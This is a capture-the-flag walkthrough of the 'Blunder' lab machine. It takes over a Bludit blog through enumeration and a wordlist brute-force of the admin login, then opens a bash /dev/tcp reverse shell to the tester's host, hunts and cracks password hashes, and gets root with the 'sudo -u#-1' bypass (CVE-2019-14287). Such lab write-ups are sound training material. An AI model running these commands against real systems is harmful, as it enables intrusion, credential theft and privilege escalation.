




# blunder

`NMAP`:

```text
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

this box is a bit weird in its configuration, when I've tried to open the /admin page that we've go from fuzzing, it redirects to another IP, which is the box's IP like, `10.10.10.191` \(even when the box is a private machine which has some IP like `10.129.219.2`, So, i've had to spin this up in a VIP VPN

 from some fuzzing, we get some files, which are, todo.txt, robots.txt, admin, install.php. These four gives us a lot of information

```text
/install.php => Bludit is already installed ;)
/todo.txt => -Inform fergus that the new blog needs images - PENDING
/admin => confirms the application runnign here - bludit
```

so, this confirms us that we have something called `bludit` here, when we search for exploits for this



but we don't know the version yet, let's try to find out by browsing the Github page of `bludit`. I've browsed a bit in the `bludit` Github, to find this which reveals the version, if that file exists in the app root



so, when we browse to that URL above from our app i.e `/bl-plugins/version/metadata.json`, we get the version. so, from the `searchsploit` results, we find that it has bunch of exploits, and all of them are authenticated exploits. if you remember, we've got a file before, `todo.txt`, which revealed us a username called `fergus`

so, after some fuzzing, there isn't much other than this `bludit` which we can really exploit, so we need to find a password for the `fergus` user to try and login into the admin page. So, lets use `cewl` for this now

`searchsploit -m php/webapps/48942.py` to get the exploit to the local machine. and now we can run this with the wordlist we generated with `cewl -d 7 -m 7 http://10.10.10.191/ -w pwd.list` and user as `fergus` to try our luck. \(I really didn't think this would work\)



so, now let's login into this page and see what it looks like, we can exploit in a min.



there is a `msf` exploit readily available, lets try that, and it works



hmm, lets get a normal shell from here, let's open a listener on our machine using `nc -lnvp 4242`, and run `bash -c 'bash -i >& /dev/tcp/10.10.14.14/4242 0>&1'` to get a reverse shell

now, I did spend quite some time here, without finding much and falling to rabbit holes. finally when we try to find the hashes in the `/var/www` directory, we can find that there are some hashes in the `users.php` somewhere inside which can be cracked using `crackstation`

```text
grep -iIER "[0-9a-f]{40}" /var/www/
```

and that will be the `hugo`'s password, after which `sudo -l` shows us what needs to be done. just

```text
sudo -u#-1 bash
```

this is a known exploit \(`https://nvd.nist.gov/vuln/detail/CVE-2019-14287`\) which I remember I've used this before, which occurs when there is a vulnerability in `sudo` and the permissions say this when you run `sudo -l`

```text
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

and once we run the above command, we are `root`.

